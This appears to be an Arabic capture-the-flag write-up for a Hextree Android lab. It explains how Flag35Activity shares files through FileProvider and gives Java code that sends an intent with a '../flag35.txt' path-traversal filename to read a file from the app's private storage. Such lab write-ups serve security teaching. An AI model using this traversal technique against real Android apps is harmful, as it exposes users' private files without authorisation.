 ال activity بيتعامل مع مشاركة الملفات عبر FileProvider لما الأول بيشيك إذا intent extra اسمه "filename" كان موجود. لو آه، بيشغل `prepareFlag()` مع الـ filename ده، ينشئ URI للملف باستخدام FileProvider، ينشئ intent مع الـ URI ده، يحط flags، ويرجع result code بـ 0 (نجاح).

الـ `prepareFlag()` method بيشيك إذا الـ filename هو "flag35.txt" ولو الملف موجود. لو كده، بيسجل tags ويكتب flag في الملف.

لو مفيش filename اتقدم (stringExtra هو null) بيستخدم "secret.txt" افتراضياً، ينشئ URI للملف ده، ينشئ intent مع الـ URI ده، يحط flags، ويرجع result code بـ -1 (فشل أو default case).

 نقدر نبعت intent وهنا بيدور على `filename` وبعدين يحضر الـ flag في ملف `flag35.txt`

#### الحل

لو نشوف الـ uri اللي هيتستخدم للوصول لـ `secret.txt` 
`URI: content://io.hextree.root/root_files/data/data/io.hextree.attacksurface/files/secret.txt`

و نجرب طلب بـ `intent.putExtra("filename","flag35.txt")`
`URI: content://io.hextree.root/root_files/data/data/io.hextree.attacksurface/files/flag35.txt`

إحنا بندور جوا مجلد `files`؟ فعشان نخرج من الملف نقدر زي ما بنعمل عادة في أي terminal، ناخد خطوة لورا باستخدام `..`

```java
	Intent intent = new Intent();  
	intent.putExtra("filename","../flag35.txt"); // لو عايز secret ماتستخدمهوش  
	intent.setComponent(new ComponentName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag35Activity"));  
	startActivityForResult(intent,1);
	
	if (requestCode == 1) {  
	        Log.d("Hextree","URI: "+ data.getData().toString());  
	    try {  
	        InputStream inputStream = getContentResolver().openInputStream(data.getData());  
	        BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream));  
	        String line ;  
	        while ((line = reader.readLine()) != null) {  
	            Log.d("File", "[*]" + line);  
	        }  
	    } catch (FileNotFoundException e) {  
	        throw new RuntimeException(e);  
	    } catch (IOException e) {  
	        throw new RuntimeException(e);  
	    }  
	}
```

وبعدين اضغط done وشوف السحر

![alt](flag35.png)
